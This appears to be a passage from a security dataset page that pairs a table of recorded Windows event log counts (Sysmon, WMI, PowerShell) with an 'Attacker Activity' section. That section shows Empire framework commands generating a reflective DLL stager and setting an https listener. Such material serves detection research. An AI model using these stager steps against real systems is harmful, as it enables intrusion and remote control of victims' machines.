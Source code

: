 | Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity      | na                                                     |              42 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             392 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             189 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             129 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |              94 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              32 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              19 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               5 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | CreateRemoteThread detected (rule: CreateRemoteThread) |               1 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |               1 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             628 |

## Attacker Activity

```
(Empire: listeners) > usestager windows/dll
(Empire: stager/windows/dll) > info

Name: DLL Launcher

Description:
  Generate a PowerPick Reflective DLL to inject with
  stager code.

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to use.
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use for
                                                 request (default, none, or other).
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation types.
                                                 For powershell only.
  Proxy            False       default           Proxy to use for request (default, none,
                                                 or other).
  Language         True        powershell        Language of the stager to generate.
  OutFile          True        /tmp/launcher.dll File to output dll to.
  UserAgent        False       default           User-agent string to use for the staging
                                                 request (default, none, or other).
  Arch             True        x64               Architecture of the .dll to generate
                                                 (x64 or x86).
  ObfuscateCommand False       Token\All\1       The Invoke-Obfuscation command to use.
                                                 Only used if Obfuscate switch is True.
                                                 For powershell only.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.


(Empire: stager/windows/dll) > set Listener https
```